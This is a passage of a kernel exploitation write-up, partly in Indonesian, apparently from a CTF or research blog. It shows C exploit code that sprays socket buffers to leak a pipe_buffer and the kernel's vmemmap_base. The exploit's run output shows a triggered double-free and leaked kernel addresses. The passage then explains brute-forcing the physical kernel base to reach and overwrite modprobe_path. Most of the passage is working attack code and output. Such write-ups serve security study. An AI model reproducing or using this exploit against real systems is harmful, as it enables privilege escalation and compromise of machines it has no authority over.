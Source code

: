 ```c
        write(pfd[i][1], "pwn", 3);
    }

    // Leak pipe_buffer
    char leak[1024];
    struct pipe_buffer *pipebuf = calloc(1, 1024);
    puts("[*] read pipe_buffer with skbuf");
    for (int i = 0; i < SKBUF_SPRAY; i++)
    {
        if (read(sock[i][1], leak, 1024 - 320) < 0)
        {
            perror("[-] read(socket)");
            return -1;
        }
        if (*(uint64_t *)&leak[48] != 0x1337133713371337)
        {
            memcpy(pipebuf, leak, 1024);
            puts("[+] found pipe_buffer");
        }
    }

    uint64_t vmemmap_base = pipebuf->page & MASK;
    printf("[*] vmemmap_base: 0x%lx\n", vmemmap_base);
```

ini hasilnya

```bash
[ Bam0x7 ]
/ $ ./exploit
[*] prepare table and chain
[*] trigger double-free
[+] table spray-0->udata 0x3232323232323232
[+] table spray-2->udata 0x3232323232323232
[+] got duplicated table
[*] replace with msg_msg
[*] kmalloc-1k msg: 0xffff88810307a400
[*] victim qid: 488
[*] send fake msg skbuf
[*] double-free victim msg
[*] read pipe_buffer with skbuf
[+] found pipe_buffer
[*] vmemmap_base: 0xffffea0000000000

```

Bruteforce physical kernel base
---

With the ability to browse kernel memory `pages` and read/write them, we can easily search for any value we want to overwrite, 
like `modprobe_path`. Keep in mind that searching `page` by `page` from the beginning of `vmemmap_base` can be very time consuming due to the physical address of the place 
The kernel is loaded randomly. However, the start of the base kernel is always aligned with the constant value `PHYSICAL_ALIGN`, which by default is `0x200000` in amd64. 
So, we can speed up our search by first only looking for addresses that align with something that looks like kernel base, 
and then start searching `page` by `page` from there.
